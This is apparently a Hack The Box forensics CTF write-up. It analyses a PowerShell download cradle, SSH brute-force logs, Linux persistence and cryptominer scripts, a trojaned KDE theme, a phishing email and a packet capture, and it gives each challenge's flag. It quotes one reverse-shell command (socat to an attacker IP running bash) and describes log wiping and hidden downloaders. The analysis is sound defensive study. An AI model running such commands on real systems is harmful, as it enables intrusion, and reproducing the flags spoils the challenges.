### Alien Cradle
The challenge brings a Powershell script, read it by **cat** and the flag appears immediately.

This is an obfuscated Powershell script act as a malware loader.
First it get the name of the current Windows user, if not "secret_HQ\Arth" then exit. Then downloads an URL which has been gzip compressed and encoded Base64.
After all, decode Base64 and decompress gzip to Invoke-Expression, which executes in memory.

**FLAG: HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}**

---
### An anusual sighting
This challenge gives a bash_history file and a log file. Connect with **nc** for questions.
**Question 1**: What is the IP Address and Port of the SSH Server (IP:Port)
Using sshd.log to analyze


Many request to connect from local IP to SSH Server IP, this is a sign of brute-force attack.
Answer for **Question 1**: 100.107.36.130:2221
**Question 2**: What time is the first successful login?
From the previous picture, I can also seen the date and time of the first successful login, where first has "Accepted password for root..."
Answer for **Question 2**: 2024-02-13 11:29:50
**Question 3**: What is the time of the unusual login?

A connection from an unusual IP from previous ones, successfully connected as root.
Answer for **Question 3**: 2024-02-19 04:00:14
**Question 4**: What is the Fingerprint of the attacker's public key?
The answer is also shown in picture.
Answer for **Question 4**: OPkBSs6okUKraq8pYo4XwwBg55QSo210F09FCe1-yj4
**Question 5**: What is the first command the attacker executed after logging in?
Now it's time for bash_history.txt. Matching with the time of the unusual login which is 2024-02-19 04:00:14, I checked for commands after that time.

Attacker has download from domain gnu-packages, not from official GNU, unzip it and execute payload, then remove the file.
Answer for **Question 6**: whoami
**Question 7**: What is the final command the attacker executed after logging out?
The last command is **./setup**, and malware has been executed.
Answer for **Question 7**: ./setup

**FLAG: HTB{4n_unusual_s1ght1ng_1n_SSH_l0gs!}**

---
### Extraterrestrial Persistence
Just like its name, the challenge is about Persistence malware, keeping a backdoor in system. A .sh file is given

Overall, the script only run if $n is pandora and $h is linuxHQ, download malware from a fake URL, execute code and remain this backdoor.

**FLAG: HTB{th3s3_4l13nS_4r3_s00000_b4s1c}**

---
### Red Miners
A .sh file is given, using **cat** gives me a very long script. 
Overall, it is a Linux persistence, it downloads a binary from tossacoin.htb, execute this binary and runs every minutes.
In particular, 

checkTarget function ensures that this malware only run on a specific host.

Next it download xmrig from tossacoin.htb and check its fingerprint.
The cleanEnv function does bunch of things, such as delete logs /var/log/syslog, modify /stc/sysctl.conf, kill processes, remove multiple files,...

And finally execute its payload
While examining this shell code, I also find malicious Base64 encoded strings. Decode it and i have four parts of the flag.

I am not sure if the flag is correct since their are two parts which has close bracket, so I guess the flag is

**FLAG: HTB{m1n1ng_th31r_w4y_t0_m4rs_th3_r3d_pl4n3t}**

---
### Sp00ky Theme
The challenge gives a *plasma* folder where there are jpeg files, xml files, qml files and Javascript files. After exploring a bit I found this strings is encoded in plasma\plasmoids\org.kde.netspeedWidget\contents\code\util.js

After reverse and decode Base64 it I have the flag

Actually, the attacker can embed an malicious URL to it, perhaps some script then load it with bash.

**FLAG: HTB{pwn3d_by_th3m3s!?_1t_c4n_h4pp3n}**

---
### Urgent
A .eml file is given, turns out it is an email. Nothing is noticeable accept for two long Base64 encoded. 

Dear Fellow Faction Leader,

I hope this message reaches you in good stead amidst the chaos of The Fray. I write to you with an offer of alliance and resistance against the oppressive regime of KORP™.

It has come to my attention that KORP™, under the guise of facilitating The Fray, seeks to maintain its stranglehold over our society. They manipulate and exploit factions for their own gain, while suppressing dissent and innovation.

But we refuse to be pawns in their game any longer. We are assembling a coalition of like-minded factions, united in our desire to challenge KORP™'s dominance and usher in a new era of freedom and equality.

Your faction has been specifically chosen for its potential to contribute to our cause. Together, we possess the skills, resources, and determination to defy KORP™'s tyranny and emerge victorious.

Join us in solidarity against our common oppressor. Together, we can dismantle the structures of power that seek to control us and pave the way for a brighter future.

Reply to this message if you share our vision and are willing to take a stand against KORP™. Together, we will be unstoppable. Please find our online form attached.

In solidarity,

Anonymous member
Leader of the Resistance

The fisrt one after decode is nothing suspicious, just an ordinary email. Comes to the second to see if anything interesting.



A string which has been URL encoded, decode it and we have a suspicious script.

Create a process and run with powershell.exe, using "-windowstyle hidden" to avoid being catch by user. Then it download an executable from standunited.htb and start this process.
Hidden in this script is the flag of the challenge.

**Flag: HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}**

---
### Wrong Spooky Season
The only very easy challenge which a packet capture is given. 100% of packages is transfer through TCP Protocol, including 7.3% through HTTP.
So I flow TCP Stream, noticed that some jpeg has been transfer, but it is not the point. Until stream 13, where attacker send HTTP request to **/e4d1c32a56ca15b3.jsp**. After that server execute **socat TCP:192.168.1.180:1337 EXEC:bash**, connect by socat to attacker's IP and open reverse shell. The main purpose of attacker is to RCE this computer.

In the next TCP Stream, I can see commands that attackers run on victim's machine and its response.

Next up, attacker connect to his/her IP and execute malware.

A backdoor has been installed.
The final flag is


**FLAG: HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}**

---